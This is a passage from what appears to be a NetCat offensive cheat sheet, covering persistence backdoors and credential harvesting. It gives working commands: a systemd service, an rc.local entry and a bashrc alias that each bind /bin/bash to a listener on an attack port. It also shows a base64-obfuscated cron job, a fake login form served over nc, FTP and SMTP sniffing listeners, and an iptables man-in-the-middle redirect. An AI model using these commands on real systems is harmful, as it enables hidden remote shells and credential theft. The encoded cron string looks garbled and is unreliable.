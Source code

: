     [Service]
    ExecStart=/bin/nc -l -p <attack_port> -e /bin/bash

    [Install]
    WantedBy=multi-user.target" > /etc/systemd/system/backdoor.service

    systemctl enable backdoor.service
    systemctl start backdoor.service
    ```
3. **Manipulating Startup Scripts**: Appends a NetCat command to the system startup script for persistence.
    ```bash
    echo "nc -l -p <attack_port> -e /bin/bash &" >> /etc/rc.local
    ```
4. **Rootkit Integration with NetCat Backdoor**: Alters system configurations to integrate a backdoor into legitimate software.
    ```bash
    echo "alias netcat='nc -l -p <attack_port> -e /bin/bash'" >> /etc/bashrc
    ```
5. **Obfuscated Persistence Mechanisms**: Encodes the persistence command to obfuscate it from detection.
    ```bash
    echo "0 */2 * * * $(echo bWMgLWwgLXBvcnQgJHtjYWwgcHJpbnRmICIkdGVybSAwICgxKnNwbGl0ICIvIiBbXVsiLyAiXSkgLXUgLWEgLWUgYmFzaA== | base64 -d)" | crontab -
    ```

#### Credential Harvesting

NetCat can be used to intercept credentials and sensitive information as they traverse the network.

1. **Intercepting FTP Credentials**: Captures FTP credentials by listening on port 21.
    ```bash
    nc -l -p 21 > ftp_capture.txt
    ```
2. **Credential Harvesting via Phishing Site**: Hosts a simple phishing site that captures credentials.
    ```bash
    echo "HTTP/1.1 200 OK\r\n\r\n<form method='POST' action='capture.php'><input name='user'><input name='pass'><input type='submit'></form>" | nc -l -p 80
    ```
3. **SMTP Credential Harvesting**: Listens on port 25 to intercept SMTP credentials.
    ```bash
    nc -l -p 25 > smtp_capture.txt
    ```
4. **MITM Attack for Credential Harvesting**: Redirects HTTP traffic to capture credentials during a man-in-the-middle attack.
    ```bash
    iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <attack_port>
    nc -l -p <attack_port> > http_capture.txt
    ```
5. **Credential Harvesting with a Honeyport**: Sets up a honeyport to attract and capture unauthorized login attempts.
    ```bash
    nc -l -p <honeyport> > credentials.txt
    ```
